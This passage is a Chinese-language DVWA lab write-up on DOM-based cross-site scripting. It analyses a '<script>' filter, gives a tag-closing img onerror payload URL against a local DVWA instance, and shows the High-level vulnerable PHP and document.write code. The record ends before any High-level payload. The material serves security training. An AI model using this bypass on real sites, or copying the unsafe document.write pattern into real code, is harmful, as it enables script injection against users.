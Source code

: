 
- 分析与利用

	`array_key_exists()`  # 检查数组里是否有指定的键名或索引，并且default值不为null。

	`stripos()` # 返回 default 中字符串`<script>`首次出现的位置,（不区分大小写）如果未发现返回false。且进入header跳转。 此时`<script>` 标签不再可用，可以尝试别的标签 如： `<img>` , 先闭合 `</option></select>` 标签，

- 构造payload

	<http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English%3E%3E/option%3E%3C/select%3E%3Cimg%20src=%27x%27%20onerror=%27alert(1)%27%3E>

	

----------

3.High DOM XSS Source

- 漏洞代码

    	<?php
    	
			// Is there any input?
			if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
			
				# White list the allowable languages
				switch ($_GET['default']) {
					case "French":
					case "English":
					case "German":
					case "Spanish":
						# ok
						break;
					default:
						header ("location: ?default=English");
						exit;
				}
			}
 
    	?> 


- DOM

		<p>Please choose a language:</p>
			 
		<form name="XSS" method="GET">
			<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + lang + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}

						document.write("<option value='English'>English</option>");
						document.write("<option value='French'>French</option>");
						document.write("<option value='Spanish'>Spanish</option>");
						document.write("<option value='German'>German</option>");
				</script>
			</select>
			<input type="submit" value="Select" />
		</form>
	
